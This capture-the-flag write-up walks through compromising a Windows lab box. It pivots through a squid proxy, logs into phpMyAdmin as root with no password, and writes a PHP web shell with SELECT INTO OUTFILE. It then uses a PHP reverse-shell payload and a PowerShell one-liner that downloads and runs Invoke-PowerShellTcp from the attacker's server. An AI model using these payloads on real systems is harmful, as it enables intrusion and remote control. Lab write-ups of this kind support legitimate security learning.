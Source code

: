
nmap scan found squid proxy on port 3128

Connected to squid proxy and ran port scan on localhost

Found 8080

Went to 8080 and found phpinfo() and phpmyadmin

Logged into phpmyadmin with user:root, no password

In phpmyadmin created table tmp_tbl
```mysql
CREATE TABLE tmp_tbl (firstname varchar(255), lastname varchar(255));
```

Inserted php into column of tmp_tbl:
```php
<?php system($_GET["cmd"]); ?>
```

Checked web server location in PHPMyadmin, found at C:/wamp/www

Output the PHP by running the following command:
```mysql
SELECT firstname INTO OUTFILE 'C:/wamp/www/cmd.php' FROM tmp_tbl
```

Upon hitting `http://box-ip:8080/cmd.php?cmd=ipconfig` we found the script successfully ran and showed ipconfig output

Run nc listener locally

Tried running netcat through cmd.php but unsuccessful

UPDATE row in tmp_tbl to be the following:
```php
<?php set_time_limit(0); $ip = "<listening-ip>"; $port = listening-port; $sock = fsockopen($ip, $port); while(!feof($sock)) {$command = fgets($sock, 1024);$output = shell_exec($command);fwrite($sock, $output);} fclose($sock); ?>
```

Ran the INTO OUTFILE command again this time calling it shell.exe

Upon hitting this in a web request successfully gain a shell but "dumb" shell. Unable to escalate to powershell or cmd, however found a way on serverfault: https://serverfault.com/questions/588151/how-to-execute-a-reverse-powershell-shell-using-ncat-or-netcat

On local machine ran
```
python3 -m http.server 4444
```

In new tab ran
```
nc -lnvp 1338
```

Then, finally, in the "dumb" shell ran
```
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<attacking-machine-port>:4444/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <attacking-machine-port> -Port 1338"
```

And boom we have a reverse powershell connection 

From here just find the user flag, which was just a txt file located in C:\

Then ran 'whoami' and found out we were already system user so we looked in Administrator/Desktop and found the root flag